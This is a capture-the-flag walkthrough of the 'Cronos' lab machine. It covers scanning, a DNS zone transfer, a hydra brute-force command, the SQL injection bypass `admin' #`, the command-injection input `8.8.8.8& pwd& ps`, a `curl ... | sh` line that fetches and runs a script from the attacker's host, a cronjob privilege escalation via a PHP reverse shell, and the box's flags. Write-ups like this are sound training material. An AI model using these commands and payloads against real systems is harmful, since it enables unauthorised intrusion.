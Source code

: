 ![Image](/assets/Cronos.png)

Cronos is an easy/intermediate box that will test an attacker's knowledge of zone transfers, remote code execution, simple SQL injection, and simple privilege escalation based on abused access. Let's get into it!
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 09:59 EDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.89 seconds

```
### Enumeration

Landing page![Image](/assets/Screenshot 2024-09-10 at 10.31.58 AM.png)

From the jump, the landing page doesn't leave us with much other than default configuration information. Feroxbuster comes up pretty empty as well, and when doing research online, all I can find is a TSIG Buffer Overflow vulnerability, but that seems out of play and a bit out of scope for a box like this. Searchsploit shows a few repos geared toward DOS and buffer overflow attacks as well, which won't help us here. I throw a general `--script vuln` nmap scan to see if anything comes back, and nothing except DOS attacks come back. 

Looking around on the web about Apache2 Ubuntu servers, we can find information about why we encountered the landing page. It looks like we need to find the DNS name that the IP resolves to, and we can do that with a tool called `nslookup`.
Using that command we can start our service, and then specify `server 10.10.10.13` to configure it, and then simply put in the IP `10.10.10.13` for DNS information.

![Image](/assets/Screenshot 2024-09-10 at 11.02.53 AM.png)

After that, we can add it to our `/etc/hosts` file, and then visit the server. 

![Image](/assets/Screenshot 2024-09-10 at 11.09.36 AM.png)
![Image](/assets/Screenshot 2024-09-10 at 11.09.56 AM.png)

The new landing page offers some options, and I started a feroxbuster in the background while I perused the sight. It seems to be hub for services provided by Laravel, which is a PHP based framework for building webapps. Nothing crazy going on on the backside.

Since we've got the domain name, let's do a zone transfer to find all of the hosts under this domain name. We can use the `host -l` command to do so, specifying our domain server and address afterwards to find the aliases.

`host -l cronos.htb 10.10.10.13`

![Image](/assets/Screenshot 2024-09-10 at 11.15.58 AM.png)

We can add these to our `/etc/hosts` file.

When we visit the administrator site, we're met with portal. I tried a few simple credentials, but they didn't work. I'll opt for `john` and pass the list (`/usr/share/john/password.lst`) that I use find to `hydra`.  We'll need to intercept a request with Burp to know which parameters to configure.

![Image](/assets/Screenshot 2024-09-10 at 11.25.50 AM.png)

Now that we've got it, let's configure `hydra`. 

```
hydra -l 'admin' -P /usr/share/john/password.lst admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^&Login=Login:Your Login Name or Password is invalid"
```

In this instance, `http-post-form` sends the post request, and the `"blah"` Specifies the username and pass parameters to be tried and the message to be shown. 

![Image](/assets/Screenshot 2024-09-10 at 11.33.04 AM.png)

We find nothing of use. Let's try some sort of injection with the login field. There's a SQL injection cheatsheet I've bookmarked, and after trying some of the default instances, `admin' #` gets us in the door. This effectively ends the argument after admin is defined, meaning that we can login without a password.

![Image](/assets/Screenshot 2024-09-10 at 11.36.13 AM.png)

### Initial Access

We've got access to a Net Tool that allows command injection. 

![Image](/assets/Screenshot 2024-09-10 at 11.37.10 AM.png)

To probe, we can use `8.8.8.8& pwd& ps`

![Image](/assets/Screenshot 2024-09-10 at 11.44.46 AM.png)

Now, let's try and get a shell. We can use Burp to modify our request. Don't forget to try different versions (bash, python, php) should one not work. Remember to URL encode!

![Image](/assets/Screenshot 2024-09-10 at 11.54.41 AM.png)

![Image](/assets/Screenshot 2024-09-10 at 11.54.19 AM.png)

We've got a shell as `www-data`. Some maintenance as always to stabilize our shell:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

`stty raw -echo; fg` 

`export TERM="xterm"`

If we go to the `/home/noulis/` directory, we can find our user flag waiting for us. 

`USER:6394548063775e0b161d3b2771125340`

### Privilege Escalation

Let's serve `LinPeas.sh` from our machine to the target. Make sure the server is spinning from the directory you want to serve! Syntax below:

`python -m SimpleHTTPServer 80` Our Machine

`curl 10.10.14.3/linpeas.sh | sh` Compromised Machine

Once ran, we can take a look at all of the potential red-flags we've got. Given the severity of the notification via color-coding, and the name of the machine, I think we'll use this vector here exploiting the cronjob. A cronjob is a service account that sometimes has excess access over it's domain. In this case, since we are `www-data`, anything in the `/var/www/` directory will be available to us as if we were `root`.

![Image](/assets/Screenshot 2024-09-10 at 12.17.42 PM.png)

Here, the `laravel/artisan` job will be what we leverage. Because the job is ran with PHP, we'll need a PHP shell. I got one at revshell.com, and I'll make a file and serve it over the python server.

![Image](/assets/Screenshot 2024-09-10 at 12.26.01 PM.png)
![Image](/assets/Screenshot 2024-09-10 at 12.30.32 PM.png)

Once I've created the file, served it, and replace artisan, I'll get my listener going.

![Image](/assets/Screenshot 2024-09-10 at 12.32.11 PM.png)

There she is! I'll `cd` to the root directory and grab my flag.

`ROOT:e2d2bbe3b974d0c044bfcdea242b709b`

#linux #medium #manual 

